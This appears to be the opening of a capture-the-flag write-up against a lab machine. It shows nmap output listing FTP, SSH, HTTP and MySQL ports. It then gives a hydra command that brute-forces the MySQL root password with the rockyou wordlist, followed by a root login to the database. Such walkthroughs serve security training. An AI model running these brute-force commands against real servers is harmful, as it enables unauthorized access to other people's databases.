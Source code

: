 ```terminal
|   Some Capabilities: ODBCClient, LongPassword, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, SupportsLoadDataLocal, FoundRows, IgnoreSigpipes, DontAllowDatabaseTableColumn, SwitchToSSLAfterHandshake, ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, IgnoreSpaceBeforeParenthesis, SupportsTransactions, InteractiveClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: mb&w\x1B\x7F\x04\x19[_~\x0F)}47o8DV
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09 
|_Not valid after:  2031-10-17T04:00:09 
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 4 open ports:

 - 21/tcp vsftpd 3.0.3
 
 - 22/tcp OpenSSH 8.2p1

 - 80/tcp Apache httpd 2.4.41

 - 3306/tcp MySQL 8.0.28


## Web

Let's navigate to the web server.

![](1.png)

We found a login page, i tried submitting some default credentials as well as trying a sql injection but no luck.

## MySql

We found a mysql server exposed on port 3306, so let's try and brute force the password for user root.

### Hydra

We're going to `hydra` with the following options:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.117.23 mysql
```

![](2.png)

Great! We got root password, let's connect to the server and see what can we find.

```terminal
$ mysql -u root -h 10.10.117.23 -p                                                                                          
Enter password:                      
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                   
Your MySQL connection id is 36                                                                                                                                
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)                                                                                                              
                                                                                                                                                              
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                                                          
                                       
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
                                       
```